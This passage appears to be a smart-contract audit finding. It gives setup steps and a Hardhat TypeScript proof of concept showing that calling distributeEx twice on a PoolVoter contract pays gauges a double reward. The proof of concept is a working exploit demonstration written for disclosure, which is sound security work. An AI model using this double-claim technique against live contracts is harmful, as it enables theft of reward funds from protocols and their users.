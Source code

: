 ```bash
git apply Bug2_diff.patch 

```

cd to folder governance, To run the test, you need to 
1. rename .env.example to .env 
2. put the test Private_key to the variable 
```   
WALLET_PRIVATE_KEY= 
 NODE_ENV == "test" 
```
Then run 
```
yarn install
yarn test  > test_all.log

```


The POC code: 
```typescript
it("Test the distributeEx of PoolVoter contract to get the double reward", async function () {
    expect(await poolVoter.totalWeight()).eq(0); 
    console.log("totalWeight: ", await poolVoter.totalWeight()); 
    //await poolVoter.connect(ant).vote([reserve.target], [1e8]);
    //expect(await poolVoter.totalWeight()).greaterThan(e18 * 19n);
    console.log("after vote totalWeight: ", await poolVoter.totalWeight()); 
    console.log("length of pools:", await poolVoter.length());
    console.log("zero balance of PoolVoter: ", await zero.balanceOf(poolVoter.target)); // Should be 0
    console.log("Step: the Deployer (the owner of Zero token) approve the PoolVoter to spend 100 ZERO token");
    
    // For this test case, just need dummy _asset and _gauge 
    const [_asset,_gauge] = await hre.ethers.getSigners();
    await poolVoter.connect(deployer).registerGauge(_asset.address,_gauge.address);
    
    await poolVoter.connect(ant).vote([reserve.target,_asset.address], [1e8,3e8]); // For Pool_0 weight is 25 and Pool_1 weight is 75
    console.log("after vote totalWeight: ", await poolVoter.totalWeight()); 
    console.log("length of pools:", await poolVoter.length());
             
    await zero.connect(deployer).approve(poolVoter.target, e18 * 100n);
    await poolVoter.connect(deployer).notifyRewardAmount(e18 * 100n);
    console.log("After notifyRewardAmout zero balance of PoolVoter: ", await zero.balanceOf(poolVoter.target));
    
       
    console.log("Before distributeEx zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("Before distributeEx zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));
    console.log("Step: Call distributeEx to distribute the reward");
    await poolVoter.connect(ant)["distributeEx(address,uint256,uint256)"](zero.target,0,1);
    console.log("After distributeEx zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("After distributeEx zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));

    await poolVoter.connect(ant)["distributeEx(address,uint256,uint256)"](zero.target,0,1);
    console.log("After distributeEx zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("After distributeEx zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));
```